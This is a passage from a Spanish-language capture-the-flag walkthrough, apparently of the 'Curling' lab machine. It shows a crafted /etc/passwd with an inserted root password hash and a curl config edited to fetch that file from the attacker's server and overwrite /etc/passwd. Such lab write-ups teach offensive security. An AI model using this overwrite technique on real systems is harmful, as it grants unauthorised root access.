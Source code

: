 ```bash
❯ cat passwd
───────┬────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: passwd
       │ Size: 1.6 KB
───────┼────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ root:IB.plMO8N/x/E:0:0:root:/root:/bin/bash
   2   │ daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   3   │ bin:x:2:2:bin:/bin:/usr/sbin/nologin
   4   │ sys:x:3:3:sys:/dev:/usr/sbin/nologin
   5   │ sync:x:4:65534:sync:/bin:/bin/sync
   6   │ games:x:5:60:games:/usr/games:/usr/sbin/nologin
   7   │ man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   8   │ lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   9   │ mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  10   │ news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  11   │ uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  12   │ proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  13   │ www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  14   │ backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  15   │ list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  16   │ irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  17   │ gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  18   │ nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  19   │ systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
  20   │ systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
  21   │ syslog:x:102:106::/home/syslog:/usr/sbin/nologin
  22   │ messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
  23   │ _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
  24   │ lxd:x:105:65534::/var/lib/lxd/:/bin/false
  25   │ uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
  26   │ dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
  27   │ landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
  28   │ pollinate:x:109:1::/var/cache/pollinate:/bin/false
  29   │ sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
  30   │ floris:x:1000:1004:floris:/home/floris:/bin/bash
  31   │ mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
───────┴────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora compartimos un servidor HTTP con python y modificamos el valor del archivo `input`:

```bash
floris@curling:~/admin-area$ cat input
url = "http://10.10.14.27/passwd"
output = "/etc/passwd"

floris@curling:~/admin-area$
```
